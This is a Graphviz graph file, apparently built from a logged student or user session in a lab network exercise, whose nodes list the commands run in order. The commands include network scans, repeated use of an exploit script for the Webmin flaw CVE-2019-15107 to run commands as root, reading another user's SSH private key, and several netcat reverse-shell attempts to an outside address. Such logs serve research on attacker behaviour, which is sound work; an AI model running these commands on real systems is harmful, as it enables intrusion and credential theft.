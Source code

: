 // creating graph for user: 85
digraph {
	node [shape=box]
	0 [label="ls A10 "]
	1 [label="cat ssh2john.py A1 A9 A11 A12 A14 A16 A17 "]
	3 [label="ls A10 "]
	4 [label="nmap A0 A1 "]
	6 [label="nmap 192.168.128.0 A0 A1 "]
	7 [label="nmap 192.168.128.0/24 A0 A1 "]
	9 [label="nmap 10.1.135.0/24 A0 A1 "]
	10 [label="nmap 10.1.135.0/ A0 A1 "]
	11 [label="nmap 10.1.135.0/16 A0 A1 "]
	13 [label="nmap 172.18.1.5 M0 "]
	14 [label="nmap -sV 172.18.1.5 M1 "]
	15 [label="curl http://172.18.1.5:10000/password_change.cgi -d 'user=root&pam=&expired=2 A4 A10 "]
	16 [label="curl http://172.18.1.5:10000/password_change.cgi -d 'user=root&pam=&expired=2 A4 "]
	18 [label="ls A10 "]
	20 [label="ls A10 "]
	21 [label="python CVE_2019_15107.py A13 "]
	22 [label="cat README.md A1 A9 A11 A12 A17 "]
	23 [label="python CVE_2019_15107.py https://172.18.1.5:10000 A13 "]
	24 [label="python CVE_2019_15107.py https://172.18.1.5:10000 id A13 "]
	25 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls A10 A13 "]
	26 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	27 [label="ls /root A10 "]
	28 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root A10 A13 "]
	29 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/ A10 A13 "]
	30 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/; pwd A10 A13 "]
	31 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; pwd A13 "]
	32 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; ls A10 A13 "]
	33 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; ls A10 A13 "]
	34 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; ls -al M10 "]
	35 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/; A10 A13 "]
	36 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/ pwd; A10 A13 "]
	37 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls -al /root/; M10 "]
	38 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'cd /root; ls'; A10 A13 "]
	39 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'cd /root; ls -al'; M10 "]
	40 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'cd /root; pwd'; A13 "]
	41 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'ls'; A10 A13 "]
	42 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'pwd'; A13 "]
	43 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'pwd' A13 "]
	44 [label="python CVE_2019_15107.py http://172.18.1.5:10000 /bin/bash -c 'echo anal' A13 "]
	45 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	46 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root A13 "]
	47 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ & ls A10 A13 "]
	48 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ A13 "]
	49 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ & echo hello A13 "]
	50 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ & echo hello' A13 "]
	51 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ && echo hello' A13 "]
	52 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ && pwd' A13 "]
	53 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ && pwd A13 "]
	54 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cat /root/flag A1 A9 A11 A12 A13 A17 "]
	55 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	56 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ A13 "]
	57 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	58 [label="python CVE_2019_15107.py http://172.18.1.5:10000 touch file A13 "]
	59 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/ > file A10 A13 "]
	60 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cat file A1 A9 A11 A12 A13 A17 "]
	61 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls A10 A13 "]
	62 [label="ls A10 "]
	63 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	64 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' A10 A13 "]
	65 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /root/WARNING-READ-ME.txt' M9 "]
	66 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'find *.txt' A10 A13 "]
	67 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ && pwd' A13 "]
	68 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/; pwd' A13 "]
	69 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root; pwd' A13 "]
	70 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /' A10 A13 "]
	71 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	72 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/alive' A10 A13 "]
	73 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/alice' M10 "]
	74 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/bob' M10 "]
	75 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/eve' M10 "]
	76 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/.ssh' M10 "]
	77 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa' M12 "]
	78 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/.ssh' M10 "]
	79 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa.pub' M12 "]
	80 [label="ls A10 "]
	81 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	82 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/debian' A10 A13 "]
	83 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/debian' M10 "]
	84 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/debian/.ansible' M10 "]
	85 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/debian/.ansible/tmp' M10 "]
	86 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /' M10 "]
	87 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /root' M10 "]
	88 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'find -L / *.txt' A10 A13 "]
	89 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'find -L / -name *.txt' M10 "]
	90 [label="ls A10 "]
	91 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' A10 A13 "]
	92 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /' A10 A13 "]
	93 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home' M10 "]
	94 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	95 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	97 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'pwd' A13 "]
	99 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	100 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	101 [label="ls A10 "]
	103 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	104 [label="ls A10 "]
	106 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	114 [label="ls A10 "]
	115 [label="python ssh2john.py M13 "]
	0 -> 1 [constraint=false]
	1 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 18 [constraint=false]
	18 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 97 [constraint=false]
	97 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 106 [constraint=false]
	106 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	rankdir=LR
}
